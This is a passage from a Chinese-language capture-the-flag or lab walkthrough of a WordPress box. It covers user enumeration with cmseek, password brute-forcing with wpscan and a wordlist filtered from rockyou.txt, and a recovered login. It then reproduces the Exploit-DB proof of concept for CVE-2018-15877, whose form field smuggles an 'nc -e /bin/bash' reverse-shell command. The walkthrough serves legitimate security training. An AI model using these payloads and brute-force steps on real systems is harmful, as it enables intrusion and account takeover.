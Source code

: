 其实，我用的是cmseek扫描的，也是扫出来这五个用户

```
cmseek -u 192.168.56.107
```

![image-20240308144124363](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240308144124363.png)

用户名有了，继续搞密码

一开始我是直接用kali里面的rockyou.txt爆破的，没爆破出来（密码太多了）

官网是有一个提示的

```
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt That should save you a few years. ;-)
```

那这个passwords.txt就是密码了

这里我直接用wpscan进行爆破了 -U 指定用户名 -P 指定密码

```
wpscan --url http://wordy -U users.txt -P passwords.txt
```

得到账号密码，`Username: mark, Password: helpdesk01`

### 登录web后台

登录上去，发现也没有写php的地方，那就找一下插件的漏洞

![image-20240308145539641](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240308145539641.png)

```
cp /usr/share/exploitdb/exploits/php/webapps/45274.html ci.html
```

内容

```html
<!--
PoC:
-->

<html>
  <!--  Wordpress Plainview Activity Monitor RCE
        [+] Version: 20161228 and possibly prior
        [+] Description: Combine OS Commanding and CSRF to get reverse shell
        [+] Author: LydA(c)ric LEFEBVRE
        [+] CVE-ID: CVE-2018-15877
        [+] Usage: Replace 127.0.0.1 & 9999 with you ip and port to get reverse shell
        [+] Note: Many reflected XSS exists on this plugin and can be combine with this exploit as well
  -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:8000/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="ip" value="google.fr| nc -nlvp 127.0.0.1 9999 -e /bin/bash" />
      <input type="hidden" name="lookup" value="Lookup" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
